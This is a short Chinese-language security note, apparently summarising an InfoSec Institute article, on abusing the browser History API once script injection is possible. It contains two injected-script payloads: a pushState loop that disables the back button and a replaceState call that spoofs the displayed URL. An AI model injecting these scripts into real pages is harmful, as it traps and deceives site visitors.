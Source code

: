 # window.history新API的恶意利用

From:[http://resources.infosecinstitute.com/general-html5-security/][0]

## 0x00 简介

可利用的[API][1]就两个：

* `pushState()`: push 新的history实体
* `replaceState()`:替换当前的history实体

不过限制就是更改的history实体只能是属于同一document对象的，也就是说限制了为同一源

## 0x01 利用方式

当可以注入js代码时，利用如下代码可使用户在点击back按钮后，回退浏览器历史无效，除非是达到相应的次数（当前的URL为`http://example.com/test.html`）

```
<script>
    for (var i=0; i <100; i++) {
        window.history.pushState({},'','/test.html');
    }
</script>
```

另一种方式则是可以伪造当前的地址（当前的URL为`http://example.com/tom.html`）

```
<script>
    window.history.replaceState({},'','/larry.html');
</script>
```

 [0]: http://resources.infosecinstitute.com/general-html5-security/
 [1]: https://developer.mozilla.org/en-US/docs/Web/API/History_API#The_pushState()_method
